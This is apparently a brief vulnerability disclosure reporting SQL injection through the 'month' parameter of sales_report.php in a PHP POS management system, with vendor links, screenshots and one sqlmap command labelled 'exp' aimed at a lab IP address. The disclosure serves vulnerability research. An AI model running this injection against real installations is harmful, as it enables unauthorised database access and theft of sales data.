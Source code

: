 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16127/best-pos-management-system-php.html

Vulnerability trigger parameter: $month

The process of vulnerability discovery is as follows：

![image](https://user-images.githubusercontent.com/30823782/220944878-8448837c-1455-4c6d-b78f-ee43b113f0ba.png)


exp

```
sqlmap.py -u "http://192.168.31.50/kruxton/sales_report.php?month=1"
```
![image](https://user-images.githubusercontent.com/30823782/220944926-9add862a-c744-4940-a0dd-67b9d36eae2c.png)

